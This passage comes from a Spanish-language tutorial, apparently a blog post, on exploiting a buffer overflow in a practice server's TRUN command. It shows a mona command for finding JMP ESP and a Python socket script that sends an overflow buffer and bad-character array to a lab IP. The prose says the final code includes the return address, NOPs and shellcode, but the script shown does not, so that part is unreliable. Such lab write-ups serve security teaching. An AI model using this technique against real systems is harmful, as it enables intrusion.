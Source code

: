 

<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/zS9TdpwEJTYavp9LG_47MtcUJDdsLY9TEZg66qe3N8kJyow2jP5YZilDWfOFeXbMuPBXLfK5MfE-hXd472blDKOWwg7SyDRqXJpWBCZSu-MGss8ly0C8Rk_hqELchVkgGJxKxBO2" alt="" /></figure>



<p>El mismo resultado se puede obtener buscando el valor hexadeximal del “opcode” JMP ESP, o sea “FF E4” dentro del módulo usando el siguiente comando:<br></p>



<p><strong><em>mona find - s “\xff\xe4” -m essfunc.dll</em></strong></p>



<p></p>



<p>Genial tenemos nuestra dirección de retorno ahora nuestro exploit está listo! Que nos falta? Pues no uno, si no que dos detalles… Dado que estamos trabajando en arquitectura x86, la dirección de retorno debe ser escrita en formato “little endian” el cual, de manera simple es nada más que nuestra dirección de retorno, con los bytes invertidos es decir AF115062, además, considerando que nuestro shellcode se ejecuta justo después de la dirección de retorno, como medida de precaución insertamos unos “NOP” o comandos de “ no operación” (es decir el sistema no hará nada) para no ejecutar nuestro código justo luego de nuestro salto, modificamos el código para que luzca finalmente así (considerar que deben crear el shellcode propio para cada caso)</p>



<pre class="wp-block-code"><code>```#!/usr/bin/python
import socket
import sys

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

#direccion de retorno 

buffer = "A" * 2001 + "B" * 4 + badchars + "C" * (2700 - 2001 - 4 - len(badchars))

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.184', 9999))
    s.send(('TRUN /../: '+ buffer+'\r\n'))
    #s.send(('TRUN .' + buffer + '\r\n'))
    print s.recv(1024)
    s.close()
except:
    print "Sin conexion al servidor"```
</code></pre>
